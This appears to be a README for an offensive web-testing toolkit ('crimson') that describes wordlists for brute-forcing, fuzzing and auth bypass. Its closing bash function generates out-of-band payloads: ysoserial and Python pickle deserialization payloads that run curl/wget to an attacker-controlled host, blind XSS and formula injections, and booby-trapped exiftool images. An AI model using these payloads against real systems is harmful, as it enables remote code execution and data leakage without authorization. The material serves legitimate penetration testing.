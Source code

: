 # WORDS

> This directory contains wordlists of words that I have collected from many different sources and filtered for `crimson`.

* :small_red_triangle_down: exp directory

> This directory contains wordlists for manual and automatic testing of various known vulnerailities.

* :small_red_triangle_down: skeleton directory

> This directory could help you build your own wordlist for directory brute-forcing.

* :small_red_triangle_down: BCK_EXT

> This wordlist contains various extensions for `crimson_backuper`

* :small_red_triangle_down: blank

> This is blank wordlist for `wfuzz`

* :small_red_triangle_down: bug

> This wordlist contains various strings that could make and internal server error or find local file inclusions, path traversals, remote code execution and other known vulnerabilities. It is all around wordlist for manual testing.

* :small_red_triangle_down: dir

> This is wordlist for directory brute-forcing.

* :small_red_triangle_down: npm_names_10000.txt and npm_names_1mln.txt

> This is wordlist for /js/vendor path bruteforcing

* :small_red_triangle_down: quick.txt

> This is wordlist for common directory bruteforcing

* :small_red_triangle_down: dns

> This is wordlist for the subdomain brute-forcing

* :small_red_triangle_down: dns-altsdns.txt

> This is wordlist for `altdns` mutations

* :small_red_triangle_down: exp/AUTH_BYPASS

> First use "Battering ram" with first 200 lines. Then whole list with sniper as username(admin|your_account), then password(Pa$$P0licy_baby123).

* :small_red_triangle_down: common_TCP_ports.txt

> Top 1,000 TCP Ports: nmap -sT --top-ports 1000 -v -oG -

## ALIAS
```bash
function words {
    # Java deserialization payload URLDNS (* swap the java path if does not work)
    java -jar "$HOME"/tools/crimson/scripts/GOAST/ysoserial.jar URLDNS "http://$1" | base64 -w0 |sed "s/$/\n/g" > oob.fuzz
    # PYTHON DESERIALIZATION PING CURL WGET
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $1" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $1/curl_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $1/wget_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $2" >> oob.fuzz
    if [[ -z "$3" ]]; then
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2/curl_pickle_ser" >> oob.fuzz
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2/wget_pickle_ser" >> oob.fuzz
    else
        python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2:$3/curl_pickle_ser" >> oob.fuzz
        python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2:$3/wget_pickle_ser" >> oob.fuzz
    fi
      # BLIND XSS PAYLOADS
    python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$1" >> oob.fuzz
    if [[ -z "$3" ]]; then
        python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$2" >> oob.fuzz
    else
        python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$2:$3" >> oob.fuzz
    fi
    # Preparing OOB payloadlist and copying it to the clipboard
    cat "$HOME"/tools/crimson/words/exp/OOB | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> oob.fuzz1
    cat oob.fuzz1 | sed "s/$2:80/$2:$3/g" >> oob.fuzz && rm oob.fuzz1
    cat "$HOME"/tools/crimson/words/exp/BLIND_XSS | sed "s/domain_collab/$1/g" >> oob.fuzz
    cat oob.fuzz | clip.exe
    # Preparing other wordlists and files to upload
    cat "$HOME"/tools/crimson/words/bug >> bug.fuzz
    cat "$HOME"/tools/crimson/words/exp/http_leaks | sed "s/domain_collab/$1/g" >> http_leaks
    cat "$HOME"/tools/crimson/words/exp/bypass_ext >> bypass_ext
    cat "$HOME"/tools/crimson/words/exp/spoofing_headers.txt > spoofing_headers.txt
    # Preparing upload
    mkdir upload
    cd upload
    cp "$HOME"/tools/crimson/upload/* .
    cat exiftool.jpg | sed "s/domain_collab/$1/g" >> 123 && mv 123 exiftooldomain.jpg
    cat exiftool.jpg | sed "s/domain_collab/$2:$3/g" >> 123 && mv 123 exiftoolvps.jpg
    cat formula_injections.txt | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> formula_injections1
    cat formula_injections1 | sed "s/$2:80/$2:$3/g" >> formula_injections.txt && rm formula_injections1
    cd ..
}

```
